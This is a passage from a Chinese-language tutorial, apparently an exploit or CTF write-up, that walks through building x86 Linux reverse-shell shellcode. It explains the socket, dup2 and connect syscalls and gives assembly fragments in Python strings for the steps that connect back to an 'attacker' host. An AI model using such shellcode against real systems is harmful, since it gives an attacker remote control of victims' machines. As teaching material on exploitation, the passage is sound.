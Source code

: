 首先我们要创建socket，即调用sys_socket，所以call的值为1。sys_socket的原型如下：

```c
int socket(int domain, int type, int protocol);
```

domain用来说明通信的范围，如IPv4，本地等。我们选择AF_INET，在Ipv4的范围内通信。

type代表通信的连接方式，如TCP，UDP等。我们选择SOCK_STREAM，即用TCP的方式通信。

protocol是指通信的附加协议。

```python
#2.reverse shell
        #2.1.socket(AF_INET(2),SOCK_STREAM(1),0)
    shellcode="push 0x1;pop ebx;push eax;push ebx;push 2;"+\
                "mov ecx,esp;mov al,0x66;int 0x80;"
```

**复制文件描述符**

由于关闭了标准输入，标准输出，错误输出，socket返回的fd为0，我们利用dup2来复制一个新的文件描述符1。

```c
int dup2(int oldfd, int newfd)
```

dup2会将旧的文件描述符oldfd，复制为一个新的文件描述符newfd，并且其指向的文件和oldfd相同。

```python
#2.2.dup2(0,1) 
    shellcode+="pop esi;pop ecx;pop ebx;mov al,0x3f;int 0x80;"
```

**连接attacker**

利用SYS_CONNECT来连接attacker主机。

```c
int connect(int sockfd, const struct sockaddr *addr,
                   socklen_t addrlen);
```

sockfd即socket的fd，这里我们的值为0。addrlen为sockaddr的大小。我们重点讲解以下sockaddr这个结构。

```c
struct sockaddr_in {
               sa_family_t    sin_family; /* address family: AF_INET */
               in_port_t      sin_port;   /* port in network byte order */
               struct in_addr sin_addr;   /* internet address */
           };

/* Internet address */
struct in_addr {
    uint32_t       s_addr;     /* address in network byte order */
};
```

sockaddr结构实质就是sockaddr_in，其有三个成员sin_family，sin_port，sin_addr。sinfamily代表通信域，sin_port为端口号，sin_addr为ip地址。
